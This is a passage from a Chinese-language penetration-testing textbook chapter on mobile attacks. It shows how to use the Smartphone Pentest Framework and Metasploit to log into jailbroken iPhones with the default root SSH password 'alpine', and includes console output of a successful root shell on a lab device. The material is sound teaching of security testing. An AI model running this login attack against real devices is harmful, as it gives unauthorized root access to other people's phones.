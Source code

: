 要连接该应用程序，首先在 Android 模拟器上打开它。主屏幕会要求输入 SPF 服务器的 IP 地址、要检查的 URL 以及七位字符的密钥。使用与前一步相同的值（除了 IP 地址应为 SPF 服务器的 IP 地址，而不是电话号码），如 图 20-1 所示。

填写完信息后，点击应用程序上的 **附加**。现在，直到你点击解除连接，你就可以通过 SPF 控制手机了。现在返回 Kali 上的 SPF。当应用程序附加后，你会被带回到 SPF 的主菜单，这意味着我们准备开始运行移动攻击了。

## 远程攻击

在移动设备的历史上，曾经有过对移动调制解调器和其他面向外部的接口的攻击。例如，研究人员发现了 Android 手机和 iPhone 的移动调制解调器驱动程序中的漏洞，攻击者可以通过发送 SMS 短信使手机崩溃、使其脱离移动网络，甚至获得手机的命令执行权限。与传统计算机类似，随着移动设备的安全状况不断改善，可用的远程攻击数量将减少。话虽如此，用户在手机上安装的软件越多，潜在的漏洞服务监听网络端口的机会就越大，正如你将在接下来的章节中了解到的那样。

### 默认 iPhone SSH 登录

一次远程攻击可能是第一个 iPhone 僵尸网络的原因。在越狱的 iPhone 上，用户可以安装 SSH 以远程登录到他们的 iPhone 终端。默认情况下，SSH 在所有设备上都有 root 密码 *alpine*。当然，用户应该更改这个值，但许多越狱 iPhone 的用户并没有这么做。尽管这个问题在多年前就已经曝光，但与许多默认密码问题一样，它依然时常出现。

要测试越狱 iPhone 上的默认 SSH 密码，我们可以选择 `5.) 运行远程攻击`，或者使用我们的老朋友 Metasploit。正如 SET 允许我们在 第十一章中使用 Metasploit 创建客户端攻击一样，我们可以使用 SPF 与 Msfcli 接口，以自动运行来自 Metasploit 的移动模块。

不幸的是，截止到目前为止，Metasploit 中针对移动设备的模块并不多，但有一个模块可以测试是否使用了默认的 iPhone 密码。如 示例 20-7 中所示，从 SPF 主菜单中选择 `8.) 使用 Metasploit`，然后选择 `1.) 运行 iPhone Metasploit 模块`。接下来，选择 `1.) Cydia 默认 SSH 密码`。SPF 会询问你 iPhone 的 IP 地址，以便填写模块中的 `RHOST` 选项。然后 SPF 会调用 Msfcli，并运行所需的模块。

示例 20-7. Root SSH 默认密码 Metasploit 模块

```
spf> **8**
Runs smartphonecentric Metasploit modules for you.

Select An Option from the Menu:
    1.) Run iPhone Metasploit Modules
    2.) Create Android Meterpreter
    3.) Setup Metasploit Listener
spf> **1**

Select An Exploit:
    1.) Cydia Default SSH Password
    2.) Email LibTiff iOS 1
    3.) MobileSafari LibTiff iOS 1
spf> **1**

Logs in with alpine on a jailbroken iPhone with SSH enabled.
iPhone IP address: **192.168.20.13**
[*] Initializing modules...
RHOST => 192.168.20.13
[*] 192.168.20.13:22 - Attempt to login as 'root' with password 'alpine'
[+] 192.168.20.13:22 - Login Successful with 'root:alpine'
[*] Found shell.
[*] Command shell session 1 opened (192.168.20.9:39177 -> 192.168.20.13:22) at 2015-03-21 14:02:44 -0400

**ls**
Documents
Library
Media
--*snip*--
```
